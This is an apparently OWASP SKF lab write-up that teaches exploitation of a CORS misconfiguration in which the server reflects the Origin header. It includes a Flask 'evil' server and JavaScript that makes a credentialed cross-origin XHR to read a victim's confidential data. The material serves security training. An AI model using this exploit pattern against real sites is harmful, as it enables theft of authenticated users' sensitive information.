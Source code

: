 # KBID 112 - CORS exploitation

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Xebia NL!](.gitbook/assets/xebia_logo-large-transparent.png)

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.  
  
From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.  
  
Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin  response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as the regular user.

![](.gitbook/assets/cors3.png)

{% hint style="info" %}
username : admin  
password:  admin
{% endhint %}

![](.gitbook/assets/sensitive-info.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](.gitbook/assets/cors1.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

Now if we add a "Origin" request header we find that the value from the added Origin header is dynamically allocated to the "Access-Control-Allow-Origin" header.

![](.gitbook/assets/cors2%20%281%29.png)

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request  from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing\_for\_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies. 

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

#### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://localhost:5000/confidential', true);
  req.withCredentials = true;
  req.send();
  
  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.  
  
In this request we find the "Origin" header appended to the request from source "http://localhost:1337" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working. 

![](.gitbook/assets/cors2.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).   
  
Now, whenever the browser discovers the following header combination:

```text
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

It triggers a hidden safety catch in CORS. 

![](.gitbook/assets/cors-evil-blocked.png)

  
This disallows the developer to disable the SOP entirely and expose your site to everyone. At least so the browser thinks, because we have obviously already seen that the dynamically allocation of the origin header achieves the same effect! 

Now we refresh the page and let our evil script perform the request as intended!

![](.gitbook/assets/final.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

